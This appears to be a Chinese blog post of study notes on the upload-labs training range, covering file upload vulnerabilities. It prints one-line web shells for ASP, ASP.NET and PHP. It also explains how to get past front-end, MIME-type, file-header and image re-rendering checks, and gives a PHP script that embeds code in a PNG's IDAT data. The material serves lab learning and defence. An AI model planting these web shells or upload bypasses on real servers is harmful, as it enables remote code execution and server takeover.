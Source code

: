 ```yaml
---
layout:     post
title:      upload-labs
subtitle:   文件上传
date:       2021-3-12
author:     YY
header-img: img/post/2.jpg
catalog: true
tags:
    - 文件上传
---
```


## 漏洞概述
文件上传是Web应用的必备功能之一,比如上传头像显示个性化 上传附件共享文件上传脚本更新网站等。如果服务器配置不当或者没有进行足够的过滤,Web用户就可以上传任意文件,包括恶意脚本文件, exe 程序等,这就造成了文件上传漏洞。
## 各版本一句话木马
```php
ASP（.asp）: 
<%eval request("cmd")%> 

ASP.NET(.ASPX): 
<%@ Page Language="Jscript"%> <%eval(Request.Item["cmd"],"unsafe");%> 

PHP: 
<?php eval($_POST['hacker'])?> 

变形一句话：
[https://blog.csdn.net/bylfsj/article/details/101227210](https://blog.csdn.net/bylfsj/article/details/101227210)
```

## 限制与绕过
#### 前端限制与绕过
有些Web应用的文件上传功能仅在前端用JS脚本做了检测,如检测后缀名绕过: 

1. 修改js脚本,甚至删除整个js事件
2. Burp捉包改后缀名



#### MIME类型检测

PNG JPG JPEG GIF 等对应的MIME类型

1. jpg image/jpeg

2. png image/png

3. gif image/gif

4. php text/php



绕过：

1）Burp捉包改MIME类型

#### 文件头检测

- getimagesize()函数检测图片大小的同时检测目标文件是否是一张图片，这个函数功能会对目标文件的16进制去进行一个读取，去读取头几个字符串是不是符合图片的要求的，因此可以制作头几个字节是图片文件头的一句话木马即可绕过（15关）

- exif_imagetype() 读取一个图像的第一个字节并检查其签名。

  - 图片木马制作：

    `copy smile.jpg/b+info.php/a smile_info.jpg`

    [![2LeSk6.png](https://z3.ax1x.com/2021/06/16/2LeSk6.png)](https://imgtu.com/i/2LeSk6)

  - 文件头加上一句话

    ```
    png 89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52 
    jpg FF D8 FF E0 00 10 4A 46 49 46 00 01 01 01 01 2c （经测试不行） 
    gif 47 49 46 38 39 61 F1 00 2C 01 F7 00 00 64 32 33 （这个也可以用47 49 46 38 39 61）
    ```

    [![2Leuh8.png](https://z3.ax1x.com/2021/06/16/2Leuh8.png)](https://imgtu.com/i/2Leuh8)

  - 属性--详细信息中加入一句话

    [![2Le8ns.png](https://z3.ax1x.com/2021/06/16/2Le8ns.png)](https://imgtu.com/i/2Le8ns)

  - 可以利用010editor在图片最后加一句话，再配合解析漏洞。

    [![2Lew3F.png](https://z3.ax1x.com/2021/06/16/2Lew3F.png)](https://imgtu.com/i/2Lew3F)

#### 二次渲染

> 就是将用户上传的图片重新生成

```
bool imagejpeg ( resource image [, string filename [, int quality]] ) 

imagejpeg() 从 image 图像以 filename 为文件名创建一个 JPEG 图像。
image 参数是 imagecreatefromjpeg 等函数的返回值。
```

参考：[https://www.cnblogs.com/forforever/p/13191999.html](https://www.cnblogs.com/forforever/p/13191999.html)

###### 1.1 GIF绕过

1. 在1.gif尾部加上,然后上传

   [![2Lehge.png](https://z3.ax1x.com/2021/06/16/2Lehge.png)](https://imgtu.com/i/2Lehge)

2. 把上传上去的图片下载下来用010打开与原图片对比，可以看到，我们在尾部加上的php代码被二次渲染后消失了

   [![2Le4jH.png](https://z3.ax1x.com/2021/06/16/2Le4jH.png)](https://imgtu.com/i/2Le4jH)

3. 但是我们可以发现有一些是没有被渲染的，所以我们可以在没有被渲染的地方插入代码

   [![2Lezuj.png](https://z3.ax1x.com/2021/06/16/2Lezuj.png)](https://imgtu.com/i/2Lezuj)

   [![2LmE2F.png](https://z3.ax1x.com/2021/06/16/2LmE2F.png)](https://imgtu.com/i/2LmE2F)

4. 在没有被渲染的地方插入代码，上传文件并下载用010打开查看我们添加的代码是否存在

   [![2LUaeP.png](https://z3.ax1x.com/2021/06/16/2LUaeP.png)](https://imgtu.com/i/2LUaeP)

5. 可以看到，我们插入的代码没有被渲染，这就实现了绕过,关于绕过gif的二次渲染,我们只需要找到渲染前后没有变化的位置,然后将php代码写进去,就可以成功上传带有php代码的图片了

   [![2LUrWQ.png](https://z3.ax1x.com/2021/06/16/2LUrWQ.png)](https://imgtu.com/i/2LUrWQ)

###### 2. PNG 绕过

> png图片由三个以上的数据块组成。
>
> 两种类型的数据块：
>
> 1. 关键数据块：
>
> 2. 辅助数据块：PLTE

- 方法一：**写入IDAT数据块**

  1. 直接在本地运行脚本，生成1.png图片

     ```php
     <?php 
     $p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23, 0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae, 0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc, 0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f, 0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c, 0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d, 0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1, 0x66, 0x44, 0x50, 0x33); 
     $img = imagecreatetruecolor(32, 32); 
     for ($y = 0; $y < sizeof($p); $y += 3) { 
         $r = $p[$y]; 
         $g = $p[$y+1]; 
         $b = $p[$y+2]; 
         $color = imagecolorallocate($img, $r, $g, $b); 
         imagesetpixel($img, round($y / 3), 0, $color); 
     }
     imagepng($img,'./1.png'); ?>
     ```

     [![2LaytO.png](https://z3.ax1x.com/2021/06/16/2LaytO.png)](https://imgtu.com/i/2LaytO)

  2. 上传1.png图片，在服务器上可以看到我们上传的文件，用010打开，可以发现里面有php代码

     [![2La21H.png](https://z3.ax1x.com/2021/06/16/2La21H.png)](https://imgtu.com/i/2La21H)

  3. 利用

     [![2La74S.png](https://z3.ax1x.com/2021/06/16/2La74S.png)](https://imgtu.com/i/2La74S)

- 方法二：**写入PLTE数据块**

  PHP底层对png的PLTE数据块进行验证时，主要验证了其src，可以在PLET数据块写入一句话，再重新计算此数据块的src值替换原先的src值, 这种方式只针对索引彩色图像的png图片才有效,在选取png图片时可根据IHDR数据块的color type辨别`.03 `为索引彩色图像.

  参考：[https://www.pianshen.com/article/81111669417/](https://www.pianshen.com/article/81111669417/)

